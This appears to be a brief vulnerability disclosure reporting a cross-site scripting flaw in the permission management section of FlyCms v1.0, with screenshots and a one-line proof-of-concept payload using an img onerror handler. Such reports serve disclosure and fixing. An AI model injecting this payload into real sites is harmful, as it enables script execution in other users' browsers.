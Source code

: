 target:https://github.com/sunkaifei/FlyCms
version: v1.0

Xss exists in the permission management department

![1](https://github.com/Ghostfox2003/cms/assets/155345031/0c5cf0c8-66a8-41e3-a667-5d16e08126c9)


Poc:

```
"><img src=1 onerror=alert(1)>
```

Successed

![2](https://github.com/Ghostfox2003/cms/assets/155345031/d6129ce4-7f62-4b8b-8c33-1a81119fc275)
